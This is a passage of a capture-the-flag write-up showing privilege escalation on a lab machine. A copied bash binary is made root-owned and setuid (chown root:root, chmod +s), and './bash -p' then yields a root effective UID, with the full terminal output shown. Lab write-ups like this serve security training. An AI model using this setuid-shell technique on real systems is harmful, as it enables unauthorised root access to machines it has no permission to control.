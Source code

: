 > **Privilege Escalation with Bash**
> 

```bash
[james@ip-10-10-125-204 ~]$ cp /usr/bin/bash .
[james@ip-10-10-125-204 ~]$ ls -lsa
total 1208
   0 drwx------. 3 james james     124 Sep 13 16:16 .
   0 drwxr-xr-x. 4 root  root       34 Nov  8  2020 ..
1192 -rwxr-xr-x  1 james james 1219248 Sep 13 16:16 bash
   0 lrwxrwxrwx. 1 root  root        9 Nov  8  2020 .bash_history -> /dev/null
   4 -rw-r--r--. 1 james james      18 Nov  8  2019 .bash_logout
   4 -rw-r--r--. 1 james james     141 Nov  8  2019 .bash_profile
   4 -rw-r--r--. 1 james james     312 Nov  8  2019 .bashrc
   0 drwx------. 2 james james      61 Nov  8  2020 .ssh
   4 -rw-------. 1 james james      38 Nov 17  2020 user.flag
[james@ip-10-10-125-204 ~]$ 
```

`ls -lsa`

```bash
total 1212
   0 drwx------ 3 kali kali     124 Sep 13 11:16 .
   4 drwxr-xr-x 3 root root    4096 Sep 13 10:57 ..
1192 -rwxr-xr-x 1 kali kali 1219248 Sep 13 11:16 bash
   0 lrwxrwxrwx 1 root root       9 Nov  8  2020 .bash_history -> /dev/null
   4 -rw-r--r-- 1 kali kali      18 Nov  8  2019 .bash_logout
   4 -rw-r--r-- 1 kali kali     141 Nov  8  2019 .bash_profile
   4 -rw-r--r-- 1 kali kali     312 Nov  8  2019 .bashrc
   0 drwx------ 2 kali kali      61 Nov  7  2020 .ssh
   4 -rw------- 1 kali kali      38 Nov 17  2020 user.flag

```

`chown root:root bash`

`chmod +s bash`

```bash
[james@ip-10-10-125-204 ~]$ ll
total 1196
-rwsr-sr-x  1 root  root  1219248 Sep 13 16:16 bash
-rw-------. 1 james james      38 Nov 17  2020 user.flag,
[james@ip-10-10-125-204 ~]$ ./bash -p
bash-4.4# whoami
root
bash-4.4# id
uid=1000(james) gid=1000(james) euid=0(root) egid=0(root) groups=0(root),1000(james)
bash-4.4#
```

# Appendix
